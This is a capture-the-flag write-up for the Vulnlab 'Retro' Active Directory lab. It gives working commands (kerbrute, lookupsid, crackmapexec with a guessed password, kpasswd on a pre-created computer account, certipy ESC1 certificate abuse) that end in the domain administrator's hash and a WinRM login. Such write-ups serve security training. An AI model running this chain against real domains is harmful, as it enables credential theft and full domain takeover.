 # Vulnlab - Retro

## NMAP

```bash
PORT      STATE SERVICE    VERSION          
53/tcp    open  tcpwrapped
88/tcp open  kerberos-sec Microsoft Windows Kerberos
135/tcp   open  tcpwrapped                      
139/tcp   open  tcpwrapped                           
445/tcp   open  tcpwrapped
593/tcp   open  tcpwrapped      
636/tcp   open  tcpwrapped
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Issuer: commonName=retro-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-23T21:06:31
| Not valid after:  2024-07-22T21:06:31
| MD5:   c1f0bac716e071c2bcb943273d569612
|_SHA-1: 7f37ea6965982430f9180a65bcadde76add6fea6
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=DC.retro.vl
| Issuer: commonName=DC.retro.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-25T09:53:42
| Not valid after:  2024-01-24T09:53:42
| MD5:   89ccbcee0485b170bbd1ebee3de93784
|_SHA-1: 2bfca683288bc59e2d2f9ffe01775d871c8c272d
9389/tcp  open  tcpwrapped
49664/tcp open  tcpwrapped
49672/tcp open  tcpwrapped
49683/tcp open  tcpwrapped
49708/tcp open  tcpwrapped
```

On Enumerating SMB with null authentication we can find few shares

<img src="https://i.imgur.com/hsCNCzc.png"/>

From the `Trainees` share, we'll get `Important.txt` which talks about having weak passwords on the trainees account and also mentions about bundling all of their account into one general `trainee` account

<img src="https://i.imgur.com/KSVl5Ad.png"/>

So verifying if the account is trainee through `kebrute`

```bash
kerbrute userenum --dc 10.10.108.245 -d retro.vl user.txt
```

<img src="https://i.imgur.com/qc50pOw.png"/>

We could have figured this out without guessing as well through lookupsid.py from impacket with anonymous user

```bash
lookupsid.py anonymous@10.10.99.152 -no-pass
```

<img src="https://i.imgur.com/OpoCNLA.png"/>

Since this account has a weak password, we can try common things like password being trainee, verifying it through `crackmapexec`

```bash
cme smb 10.10.99.152 -u 'trainee' -p 'trainee' --shares
```

<img src="https://i.imgur.com/652HK94.png"/>

We can now access `Notes` share and find a ToDo.txt file which talks about pre-created computer accounts 

<img src="https://i.imgur.com/mEc0UR2.png"/>

<img src="https://i.imgur.com/ZRsMc7m.png"/>
https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/

If we go back to the output of lookupsid, we'll see a computer account `BANKING$`

<img src="https://i.imgur.com/vZMirvK.png"/>
The password for this account is the same as the name, on trying to login, it will show `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`

<img src="https://i.imgur.com/EQuQGaE.png"/>

In order to use this account, we need to change the password and this can be done through `kpasswd` which requires `/etc/krb.conf` to be modified

<img src="https://i.imgur.com/XVq9dTs.png"/>

```
kpasswd BANKING$
```

<img src="https://i.imgur.com/XzyJKT4.png"/>

This can be verified again with cme that the password has been changed

<img src="https://i.imgur.com/4WqhYDX.png"/>

Enumerating ADCS with `certipy` , we see that authenticated users have enrollment rights but there isn't any template which be used with trainee user

<img src="https://i.imgur.com/Dn2l9l4.png"/>

However checking the BANKING$ account, there's a template `RetroClients` on which domain computer have enrollment rights which can allow the machine accounts to enroll certificate on behalf of other users leading to ESC1 attack 

```bash
certipy find -u 'BANKING$' -p 'Pass' -dc-ip 10.10.99.152 -stdout -vulnerable
```

<img src="https://i.imgur.com/4N8TaGP.png"/>

On requesting administrator's certificate, it's going to show an error that it doesn't meet the minimum key size which by default certipy sends with 2048 length

<img src="https://i.imgur.com/iVIZR00.png"/>

Specifying the key size to be of 4096 will resolve this issue

```bash
certipy req -u 'banking$'@retro.vl -p 'P@ss12345' -c 'retro-DC-CA' -target 'dc.retro.vl' -template 'RetroClients' -upn 'administrator' -key-size 4096 
```

<img src="https://i.imgur.com/Z8njyv9.png"/>

With this certificate, administrator's hash can be retrieved

```bash
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'retro.vl' -dc-ip 10.10.99.152
```

<img src="https://i.imgur.com/uOMiJ0s.png"/>

Through `evil-winrm` we can login on WinRM using the NThash of administrator 

<img src="https://i.imgur.com/eDwld0C.png"/>
## References 

- https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/

